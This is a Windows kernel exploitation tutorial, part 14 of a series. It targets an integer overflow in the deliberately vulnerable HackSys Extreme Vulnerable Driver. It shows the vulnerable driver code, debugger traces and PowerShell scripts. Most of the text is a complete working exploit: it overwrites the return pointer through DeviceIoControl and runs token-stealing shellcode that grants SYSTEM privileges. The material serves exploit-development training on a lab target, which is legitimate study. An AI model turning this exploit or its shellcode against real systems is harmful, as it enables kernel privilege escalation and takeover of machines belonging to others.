






NTSTATUS TriggerIntegerOverflow(IN PVOID UserBuffer, IN SIZE_T Size) {
ULONG Count = 0;
NTSTATUS Status = STATUS_SUCCESS;
ULONG BufferTerminator = 0xBAD0B0B0;
ULONG KernelBuffer[BUFFER_SIZE] = {0};
SIZE_T TerminatorSize = sizeof(BufferTerminator);
PAGED_CODE();
__try {
// Verify if the buffer resides in user mode
ProbeForRead(UserBuffer, sizeof(KernelBuffer), (ULONG)__alignof(KernelBuffer));
DbgPrint("[+] UserBuffer: 0x%p\n", UserBuffer);
DbgPrint("[+] UserBuffer Size: 0x%X\n", Size);
DbgPrint("[+] KernelBuffer: 0x%p\n", &KernelBuffer);
DbgPrint("[+] KernelBuffer Size: 0x%X\n", sizeof(KernelBuffer));
#ifdef SECURE
// Secure Note: This is secure because the developer is not doing any arithmetic
// on the user supplied value. Instead, the developer is subtracting the size of
// ULONG i.e. 4 on x86 from the size of KernelBuffer. Hence, integer overflow will
// not occur and this check will not fail
if (Size > (sizeof(KernelBuffer) - TerminatorSize)) {
DbgPrint("[-] Invalid UserBuffer Size: 0x%X\n", Size);
Status = STATUS_INVALID_BUFFER_SIZE;
return Status;
}
#else
DbgPrint("[+] Triggering Integer Overflow\n");
// Vulnerability Note: This is a vanilla Integer Overflow vulnerability because if
// 'Size' is 0xFFFFFFFF and we do an addition with size of ULONG i.e. 4 on x86, the
// integer will wrap down and will finally cause this check to fail
if ((Size + TerminatorSize) > sizeof(KernelBuffer)) {
DbgPrint("[-] Invalid UserBuffer Size: 0x%X\n", Size);
Status = STATUS_INVALID_BUFFER_SIZE;
return Status;
}
#endif
// Perform the copy operation
while (Count < (Size / sizeof(ULONG))) {
if (*(PULONG)UserBuffer != BufferTerminator) {
KernelBuffer[Count] = *(PULONG)UserBuffer;
UserBuffer = (PULONG)UserBuffer + 1;
Count++;
}
else {
break;
}
}
}
__except (EXCEPTION_EXECUTE_HANDLER) {
Status = GetExceptionCode();
DbgPrint("[-] Exception Code: 0x%X\n", Status);
}
return Status;
}
Part 14: Kernel Exploitation -> Integer Overflow
Hola, and welcome back to part 14 of the Windows exploit development tutorial series. Today we have another post on pwning @HackSysTeam's extreme vulnerable driver. This time we will take a look at the integer overflow; barring the GS stack overflow (we will cover this later) and the type confusion (too easy to cover but exploit on GitHub) this will be the last of the easily exploitable vulns! For more details on setting up the debugging environment see part 10.
Resources:
+ HackSysExtremeVulnerableDriver (hacksysteam) - here
Recon the challenge
Let's have a look at part of the vulnerable function in question (here).
The driver function compares the length of the user supplied buffer to the buffer allocated by the driver. However in the vulnerable version this check is performed as follows:
BufferTerminator = 0xBAD0B0B0 InputBuffer.Size + BufferTerminator.Size > KernelAllocatedBuffer.Size
Obvious bug is obvious, the terminator size is 4 bytes so if we supply DeviceIoControl with a buffer size which is between 0xfffffffc and 0xffffffff the driver will add 4 to the integer causing the value to loop round on itself and pass the check! We can do something similar in the PowerShell console to illustrate the issue.
PS C:\Users\b33f> 0xfffffffc+4 0 PS C:\Users\b33f> 0xffffffff+4 3
The IOCTL for this function is 0x222027. To see how the IOCTL can be identified, please check out part 10 and part 11 of this series. Let's quickly jump into IDA and have a look at the function. In the image below we can see the function prolog including the erroneous length check.

After we pass this block we end up in a loop that copies over bytes from the user buffer to the kernel buffer. Notice the orange block below, the copy operation continues until the buffer terminating DWORD is encountered.

Let's briefly feed the driver some expected values so we can make sure we are able to call the relevant function.
Add-Type -TypeDefinition @"
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;
using System.Security.Principal;
public static class EVD
{
[DllImport("kernel32.dll", CharSet = CharSet.Auto, SetLastError = true)]
public static extern IntPtr CreateFile(
String lpFileName,
UInt32 dwDesiredAccess,
UInt32 dwShareMode,
IntPtr lpSecurityAttributes,
UInt32 dwCreationDisposition,
UInt32 dwFlagsAndAttributes,
IntPtr hTemplateFile);
[DllImport("Kernel32.dll", SetLastError = true)]
public static extern bool DeviceIoControl(
IntPtr hDevice,
int IoControlCode,
byte[] InBuffer,
int nInBufferSize,
byte[] OutBuffer,
int nOutBufferSize,
ref int pBytesReturned,
IntPtr Overlapped);
}
"@
$hDevice = [EVD]::CreateFile("\\.\HacksysExtremeVulnerableDriver", [System.IO.FileAccess]::ReadWrite, [System.IO.FileShare]::ReadWrite, [System.IntPtr]::Zero, 0x3, 0x40000080, [System.IntPtr]::Zero)
if ($hDevice -eq -1) {
echo "`n[!] Unable to get driver handle..`n"
Return
} else {
echo "`n[>] Driver information.."
echo "[+] lpFileName: \\.\HacksysExtremeVulnerableDriver"
echo "[+] Handle: $hDevice"
}
$Buffer = [Byte[]](0x41)*0x100 + [System.BitConverter]::GetBytes(0xbad0b0b0)
echo "`n[>] Sending buffer.."
echo "[+] Buffer length: $($Buffer.Length)"
echo "[+] IOCTL: 0x222027`n"
[EVD]::DeviceIoControl($hDevice, 0x222027, $Buffer, $Buffer.Length, $null, 0, [ref]0, [System.IntPtr]::Zero) |Out-null

Perfect, as expected. Now, lets try to BSOD the box by giving DeviceIoControl a size of 0xffffffff and sending a buffer which is larger than the one allocated by the driver (eg: 0x900).
Add-Type -TypeDefinition @"
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;
using System.Security.Principal;
public static class EVD
{
[DllImport("kernel32.dll", CharSet = CharSet.Auto, SetLastError = true)]
public static extern IntPtr CreateFile(
String lpFileName,
UInt32 dwDesiredAccess,
UInt32 dwShareMode,
IntPtr lpSecurityAttributes,
UInt32 dwCreationDisposition,
UInt32 dwFlagsAndAttributes,
IntPtr hTemplateFile);
[DllImport("Kernel32.dll", SetLastError = true)]
public static extern bool DeviceIoControl(
IntPtr hDevice,
int IoControlCode,
byte[] InBuffer,
int nInBufferSize,
byte[] OutBuffer,
int nOutBufferSize,
ref int pBytesReturned,
IntPtr Overlapped);
}
"@
$hDevice = [EVD]::CreateFile("\\.\HacksysExtremeVulnerableDriver", [System.IO.FileAccess]::ReadWrite, [System.IO.FileShare]::ReadWrite, [System.IntPtr]::Zero, 0x3, 0x40000080, [System.IntPtr]::Zero)
if ($hDevice -eq -1) {
echo "`n[!] Unable to get driver handle..`n"
Return
} else {
echo "`n[>] Driver information.."
echo "[+] lpFileName: \\.\HacksysExtremeVulnerableDriver"
echo "[+] Handle: $hDevice"
}
$Buffer = [Byte[]](0x41)*0x900 + [System.BitConverter]::GetBytes(0xbad0b0b0)
$Size = 0xffffffff
echo "`n[>] Sending buffer.."
echo "[+] Buffer length: $($Buffer.Length)"
echo "[+] IOCTL: 0x222027`n"
[EVD]::DeviceIoControl($hDevice, 0x222027, $Buffer, $Size, $null, 0, [ref]0, [System.IntPtr]::Zero) |Out-null

Pwn all the things!
Return Pointer Overwrite
As we were able to see above, we smashed the exception handler. This is not entirely desirable, what we really want is to do is a precise overwrite in order to gain control of execution when the TriggerIntegerOverflow function exits.
This is a task I leave to the diligent reader. For posterity, as I have been "inventing" primitives in PowerShell to do exploit development, the following can be used to create a pattern buffer.
$Pattern_Create = ([system.Text.Encoding]::ASCII).GetBytes("Aa0Aa1Aa2Aa3Aa........")
To overwrite the function return value with 0x42424242, we can use the following buffer structure.
$Buffer = [Byte[]](0x41)*0x828 + [Byte[]](0x42)*0x4 + [System.BitConverter]::GetBytes(0xbad0b0b0) $Size = 0xffffffff
Shellcode
Similar to the kernel stack overflow we have to see how we should should fix up the shellcode epilogue to prevent a BSOD! First let's have a look at the normal work flow when we provide the driver function expected values. We will place a breakpoint on the TriggerIntegerOverflow return instruction.

kd> bp 9528c9b4 kd> g ****** HACKSYS_EVD_IOCTL_INTEGER_OVERFLOW ****** [+] UserBuffer: 0x023CAAEC [+] UserBuffer Size: 0x108 [+] KernelBuffer: 0xA46B72AC [+] KernelBuffer Size: 0x800 [+] Triggering Integer Overflow Breakpoint 0 hit HackSysExtremeVulnerableDriver+0x49b4: 9528c9b4 c20800 ret 8 <-------[Stack] a46b7ad4 9528c9da HackSysExtremeVulnerableDriver+0x49da a46b7ad8 023cabf0 a46b7adc 00000108 a46b7ae0 a46b7afc a46b7ae4 9528d0e6 HackSysExtremeVulnerableDriver+0x50e6 HackSysExtremeVulnerableDriver+0x49da: 9528c9da 5d pop ebp <-------[Stack] a46b7ae0 a46b7afc a46b7ae4 9528d0e6 HackSysExtremeVulnerableDriver+0x50e6 a46b7ae8 85edde80 HackSysExtremeVulnerableDriver+0x49db: 9528c9db c20800 ret 8 <-------[Stack] a46b7ae4 9528d0e6 HackSysExtremeVulnerableDriver+0x50e6 a46b7ae8 85edde80 a46b7aec 85eddef0 a46b7af0 85396620
This seems to be practically identical to the stack overflow we did in part 10. Let's check out the stack when we trigger the integer overflow.
****** HACKSYS_EVD_IOCTL_INTEGER_OVERFLOW ******
[+] UserBuffer: 0x0234FAA4
[+] UserBuffer Size: 0xFFFFFFFF
[+] KernelBuffer: 0x96F4F2AC
[+] KernelBuffer Size: 0x800
[+] Triggering Integer Overflow
Breakpoint 0 hit
HackSysExtremeVulnerableDriver+0x49b4:
9528c9b4 c20800 ret 8 <-------[Stack] 96f4fad4 42424242
96f4fad8 023502d0
96f4fadc ffffffff
96f4fae0 96f4fafc
96f4fae4 9528d0e6 HackSysExtremeVulnerableDriver+0x50e6
We can modify the shellcode epilogue in the following fashion to restore the missing instructions.
$Shellcode = [Byte[]] @(
#---[Setup]
0x60, # pushad
0x64, 0xA1, 0x24, 0x01, 0x00, 0x00, # mov eax, fs:[KTHREAD_OFFSET]
0x8B, 0x40, 0x50, # mov eax, [eax + EPROCESS_OFFSET]
0x89, 0xC1, # mov ecx, eax (Current _EPROCESS structure)
0x8B, 0x98, 0xF8, 0x00, 0x00, 0x00, # mov ebx, [eax + TOKEN_OFFSET]
#---[Copy System PID token]
0xBA, 0x04, 0x00, 0x00, 0x00, # mov edx, 4 (SYSTEM PID)
0x8B, 0x80, 0xB8, 0x00, 0x00, 0x00, # mov eax, [eax + FLINK_OFFSET] <-|
0x2D, 0xB8, 0x00, 0x00, 0x00, # sub eax, FLINK_OFFSET |
0x39, 0x90, 0xB4, 0x00, 0x00, 0x00, # cmp [eax + PID_OFFSET], edx |
0x75, 0xED, # jnz ->|
0x8B, 0x90, 0xF8, 0x00, 0x00, 0x00, # mov edx, [eax + TOKEN_OFFSET]
0x89, 0x91, 0xF8, 0x00, 0x00, 0x00, # mov [ecx + TOKEN_OFFSET], edx
#---[Recover]
0x61, # popad
0x31, 0xC0, # NTSTATUS -> STATUS_SUCCESS :p
0x5D, # pop ebp
0xC2, 0x08, 0x00 # ret 8
)
Game Over
That should do the trick, please refer to the full exploit below for more information.
Add-Type -TypeDefinition @"
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;
using System.Security.Principal;
public static class EVD
{
[DllImport("kernel32.dll", CharSet = CharSet.Auto, SetLastError = true)]
public static extern IntPtr CreateFile(
String lpFileName,
UInt32 dwDesiredAccess,
UInt32 dwShareMode,
IntPtr lpSecurityAttributes,
UInt32 dwCreationDisposition,
UInt32 dwFlagsAndAttributes,
IntPtr hTemplateFile);
[DllImport("Kernel32.dll", SetLastError = true)]
public static extern bool DeviceIoControl(
IntPtr hDevice,
int IoControlCode,
byte[] InBuffer,
int nInBufferSize,
byte[] OutBuffer,
int nOutBufferSize,
ref int pBytesReturned,
IntPtr Overlapped);
[DllImport("kernel32.dll", SetLastError = true)]
public static extern IntPtr VirtualAlloc(
IntPtr lpAddress,
uint dwSize,
UInt32 flAllocationType,
UInt32 flProtect);
}
"@
# Compiled with Keystone-Engine
# Hardcoded offsets for Win7 x86 SP1
$Shellcode = [Byte[]] @(
#---[Setup]
0x60, # pushad
0x64, 0xA1, 0x24, 0x01, 0x00, 0x00, # mov eax, fs:[KTHREAD_OFFSET]
0x8B, 0x40, 0x50, # mov eax, [eax + EPROCESS_OFFSET]
0x89, 0xC1, # mov ecx, eax (Current _EPROCESS structure)
0x8B, 0x98, 0xF8, 0x00, 0x00, 0x00, # mov ebx, [eax + TOKEN_OFFSET]
#---[Copy System PID token]
0xBA, 0x04, 0x00, 0x00, 0x00, # mov edx, 4 (SYSTEM PID)
0x8B, 0x80, 0xB8, 0x00, 0x00, 0x00, # mov eax, [eax + FLINK_OFFSET] <-|
0x2D, 0xB8, 0x00, 0x00, 0x00, # sub eax, FLINK_OFFSET |
0x39, 0x90, 0xB4, 0x00, 0x00, 0x00, # cmp [eax + PID_OFFSET], edx |
0x75, 0xED, # jnz ->|
0x8B, 0x90, 0xF8, 0x00, 0x00, 0x00, # mov edx, [eax + TOKEN_OFFSET]
0x89, 0x91, 0xF8, 0x00, 0x00, 0x00, # mov [ecx + TOKEN_OFFSET], edx
#---[Recover]
0x61, # popad
0x31, 0xC0, # NTSTATUS -> STATUS_SUCCESS :p
0x5D, # pop ebp
0xC2, 0x08, 0x00 # ret 8
)
# Write shellcode to memory
echo "`n[>] Allocating ring0 payload.."
[IntPtr]$Pointer = [EVD]::VirtualAlloc([System.IntPtr]::Zero, $Shellcode.Length, 0x3000, 0x40)
[System.Runtime.InteropServices.Marshal]::Copy($Shellcode, 0, $Pointer, $Shellcode.Length)
$EIP = [System.BitConverter]::GetBytes($Pointer.ToInt32())
echo "[+] Payload size: $($Shellcode.Length)"
echo "[+] Payload address: $("{0:X8}" -f $Pointer.ToInt32())"
$hDevice = [EVD]::CreateFile("\\.\HacksysExtremeVulnerableDriver", [System.IO.FileAccess]::ReadWrite, [System.IO.FileShare]::ReadWrite, [System.IntPtr]::Zero, 0x3, 0x40000080, [System.IntPtr]::Zero)
if ($hDevice -eq -1) {
echo "`n[!] Unable to get driver handle..`n"
Return
} else {
echo "`n[>] Driver information.."
echo "[+] lpFileName: \\.\HacksysExtremeVulnerableDriver"
echo "[+] Handle: $hDevice"
}
$Buffer = [Byte[]](0x41)*0x828 + $EIP + [System.BitConverter]::GetBytes(0xbad0b0b0)
$Size = 0xffffffff
echo "`n[>] Sending buffer.."
echo "[+] Buffer size: $($Buffer.Length)"
echo "[+] Fake buffer size: $("{0:X}" -f $Size)"
echo "[+] IOCTL: 0x222027`n"
[EVD]::DeviceIoControl($hDevice, 0x222027, $Buffer, $Size, $null, 0, [ref]0, [System.IntPtr]::Zero) |Out-null
